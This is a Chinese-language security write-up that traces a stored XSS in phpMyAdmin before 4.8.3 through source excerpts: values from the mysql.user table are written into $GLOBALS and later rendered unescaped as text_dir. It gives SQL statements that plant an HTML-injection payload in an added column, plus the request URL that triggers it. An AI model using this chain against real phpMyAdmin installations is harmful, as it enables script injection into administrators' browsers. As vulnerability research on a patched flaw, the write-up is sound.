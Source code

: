## Phpmyadmin < 4.8.3 XSS

#### 一、漏洞简介

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

#### 二、漏洞影响

Phpmyadmin < 4.8.3

#### 三、复现过程

在审计phpmyadmin时，我比较关注$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。


```php
foreach ($row as $key => $value) {
    $GLOBALS[$key] = $value;
}
```

很明显，该处是$GLOBALS的赋值操作，而$row来自于对mysql.user表的查询结果，且$user_host_condition可控，

/libraries/classes/Server/Privileges.php::3966行


```php
public static function getDataForChangeOrCopyUser()
    {
        $queries = null;
        $password = null;

        if (isset($_REQUEST['change_copy'])) {
            $user_host_condition = ' WHERE `User` = '
                . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                . ' AND `Host` = '
                . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
            $row = $GLOBALS['dbi']->fetchSingleRow(
                'SELECT * FROM `mysql`.`user` ' . $user_host_condition
            );
```

既然上述代码会将mysql.user中符合条件的行的列名和值写入$GLOBALS中,我们便可通过添加mysql.user的列来往$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server_privileges.php::178中对该函数有调用。


```php
list($queries, $password) = Privileges::getDataForChangeOrCopyUser();
```

这时我们来试试向$GLOBALS中写一个$GLOBALS['xz']='aliyun'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。


```php
ALTER TABLE user ADD xz varchar(255);
INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');
```

在/libraries/classes/Server/Privileges.php::3980下断点


```php
$serverVersion = $GLOBALS['dbi']->getVersion();
```

然后构造`http://127.0.0.1/phpMyAdmin-4.8.2/server_privileges.php?change_copy=aa&old_username=test&old_hostname=127.0.0.1&mode=5` 参数请求，change_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

![](images/2020_06_02/15912757244019.png)


可以看到$GLOBALS['xz']='aliyun'已经成功赋值。

**利用构造**

有了可控的$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的$GLOBALS变量。


```php
$retval .= '<div>';
        $retval .= '<form action="index.php">';
        $retval .= Url::getHiddenFields($url_params);
        $retval .= '<select name="db" class="hide" id="navi_db_select">'
            . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'
```

继续搜索调用renderDbSelect函数地方，发现libraries\classes\Navigation\Navigation.php::62的getDisplay函数。


```php
public function getDisplay()
    {
        /* Init */
        $retval = '';
        $response = Response::getInstance();
        if (! $response->isAjax()) {
            $header = new NavigationHeader();
            $retval = $header->getDisplay();
        }
        $tree = new NavigationTree();
        if (! $response->isAjax()
            || ! empty($_REQUEST['full'])
            || ! empty($_REQUEST['reload'])
        ) {
            if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                // provide database tree in navigation
                $navRender = $tree->renderState();
            } else {
                // provide legacy pre-4.0 navigation
                $navRender = $tree->renderDbSelect();
```

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\classes\Header.php::440的getDisplay函数有调用。


```php
public function getDisplay()
    {
        $retval = '';
        ...(省略)
                if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                    $nav = new Navigation();
                    $retval .= $nav->getDisplay();
                }
```

搜索实例化Header->GetDisplay的方法，发现\libraries\classes\Response.php::100的构造方法中实例化了Header类，而$this-_header又在_getDisplay中被调用。_getDisplay被_htmlResponse调用，_htmlResponse在response函数中被调用。

```php
private function __construct()
    {
        if (! defined('TESTSUITE')) {
            $buffer = OutputBuffering::getInstance();
            $buffer->start();
            register_shutdown_function(array($this, 'response'));
        }
        $this->_header = new Header();
        $this->_HTML   = '';
        $this->_JSON   = array();

```

\libraries\classes\Response.php::266行

```php
private function _getDisplay()
    {
        // The header may contain nothing at all,
        // if its content was already rendered
        // and, in this case, the header will be
        // in the content part of the request
        $retval  = $this->_header->getDisplay();
        $retval .= $this->_HTML;
        $retval .= $this->_footer->getDisplay();
        return $retval;
    }

```

\libraries\classes\Response.php::279行

```php
private function _htmlResponse()
    {
        echo $this->_getDisplay();
    }

```

\libraries\classes\Response.php::438行

```php
public function response()
    {
        chdir($this->getCWD());
        $buffer = OutputBuffering::getInstance();
        if (empty($this->_HTML)) {
            $this->_HTML = $buffer->getContents();
        }
        if ($this->isAjax()) {
            $this->_ajaxResponse();
        } else {
            $this->_htmlResponse();
        }
        $buffer->flush();
        exit;
    }

```

这里注意__construct中的register_shutdown_function函数，看php manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，

![2.png](images/2020_06_02/1b9b8133c1824691a4b43f602552a911.png)

**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server_privileges.php::34行，发现有实例化Response。

```php
$response = Response::getInstance();
$header   = $response->getHeader();
$scripts  = $header->getScripts();

```

拥有以上调用链后，只需要控制$GLOBAS的键为text_dir,值为XSS payload即可，进入mysql库，执行以下sql语句修改列名xz为text_dir，并修改数据为XSS Payload。

```php
ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
UPDATE `user` SET `text_dir` = '\"><img src><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

```

构造**`http://url/phpMyAdmin-4.8.2/server_privileges.php?change_copy=aa&old_username=test&old_hostname=127.0.0.1&mode=5`**

![3.png](images/2020_06_02/69c5e770161c4eaeb6d839977209edf2.png)

成功触发XSS

## 参考链接

> https://xz.aliyun.com/t/7797

